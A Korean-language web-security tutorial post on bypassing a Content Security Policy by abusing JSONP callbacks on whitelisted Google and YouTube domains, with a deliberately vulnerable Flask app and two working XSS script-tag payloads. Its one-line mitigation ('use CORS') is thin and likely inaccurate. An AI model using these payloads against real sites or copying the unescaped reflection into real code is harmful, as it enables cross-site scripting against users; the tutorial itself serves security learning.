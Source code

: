 ```yaml
---
title: CSP Bypass with JSONP
date: 2023-12-07
author: glasses96
categories: [WEB]
tags: [CSP Bypass, JSONP]
pin: true
math: true
mermaid: true
---
```


> **CSP에 script-src에 JSONP API를 지원하는 서버가 있을 경우 이를 이용하여 XSS를 하는 방법을 알아봅시다.**  
{: .prompt-info }

## What is JSONP
JSONP는 SOP(Same Origin Policy)정책을 우회하기 위해 사용하는 방법입니다.  
`JSONP는 HTML 문서의 script 태그로 다른 도메인을 요청 할 시 SOP 정책이 적용되지 않는 방식`을 이용하여 동작합니다.  
script 태그는 src 속성 값을 호출한 결과를 javascript로 불러와서 즉시 실행시키는 기능입니다.

### Attack Point

만약 CSP에서 허용한 출처가 JSONP API를 지원한다면, `callback 파라미터에 원하는 스크립트`를 삽입하여 공격이 가능합니다.  
예를 들어 웹 페이지에서 *.google.com에서 온 출처만 허용한다고 가정해봅시다. 이 경우, 구글에서 JSONP API를 지원하는 서버를 찾아 callback에 원하는 스크립트를 삽입할 수 있습니다.  

예시 코드를 보면 CSP 적용되어 있어 text 변수에 스크립트 구문을 넣어도 CSP 떄문에 스크립트를 실행할 수 없습니다.
```py
#!/usr/bin/env python3
from flask import Flask, request

app = Flask(__name__)

@app.after_request
def add_header(response):
    global nonce

    csp = (
        "default-src 'self'; "
        "script-src 'self' *.google.com *.youtube.com; "
        "img-src 'self'; "
        "style-src 'self'; "
        "object-src 'none'; "
        "base-uri 'none';"
    )
    response.headers['Content-Security-Policy'] = csp
    return response


@app.route('/', methods=['GET'])
def index():
    text = request.args.get("text", "test")
    return f"<html><body>text : {text}</body></html>"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5555)

```

![스크립트 삽입 에러](/assets/post/51/1.png))

### Google Accounts
JSONP API를 지원하는 callback에 원하는 페이로드를 넣어서 XSS 동작이 가능합니다.
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(`glasses96`);"></script>
```
![XSS_Google](/assets/post/51/2.png)

### youtube

```
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE%26format=json%26callback=alert(`glasses96`)";></script>
```
![XSS_Youtube](/assets/post/51/3.png)

## 대응방안
CORS 사용

## Next?
다음은 service worker를 이용하여 CSP를 우회시키는 방법에 대해서 알아보겠습니다.

## Reference
- https://learn.dreamhack.io/322
- https://lactea.kr/entry/ctf-%EB%AC%B8%EC%A0%9C%EB%A5%BC-%ED%86%B5%ED%95%B4-CSP-bypass-%EC%A0%95%EB%A6%AC%ED%95%98%EA%B8%B0